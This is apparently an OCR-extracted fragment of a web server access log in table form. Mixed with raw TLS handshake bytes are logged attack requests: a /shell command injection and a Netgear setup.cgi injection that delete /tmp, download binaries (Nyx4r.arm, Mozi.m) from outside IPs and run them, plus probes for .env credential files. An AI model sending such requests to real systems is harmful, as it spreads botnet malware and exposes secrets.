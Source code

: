 | 156 |                     1 | \x16\x03\x01\x00\xF2\x01\x00\x00\xEE\x03\x03\xBB\xA8GN\x07\xA9l8\xD1\xFE!Xd\x92]\xB8\xEFX\xDC&G\xE7\xF0\xBC\xCD\xF9\xCF                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| 157 |                     1 | GET /shell?cd+/tmp;rm+-rf+*;wget+ http://157.245.200.182/Binarys/Nyx4r.arm;chmod+777+/tmp/Nyx4r.arm;sh+/tmp/Nyx4r.arm arm4.jaws HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 158 |                     1 | \x16\x03\x01\x00\x8B\x01\x00\x00\x87\x03\x03N\xA8\x8CE\x9D\xDE\x03Y\xED\x10\x7F\x91\xED\x8DZ\x8A\xA3@\xE6\xCAU\xB1\xF8#\x07\xFD@x\xF7\xA4\x93w\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 159 |                     1 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://112.248.114.104:55682/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| 160 |                     1 | GET /core/Datavase/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 161 |                     1 | GET /core/app/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| 162 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03\xD1drR\xC5@dB\x89\xCB\xAC-\xAE?\xFF\xC6\xA3                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |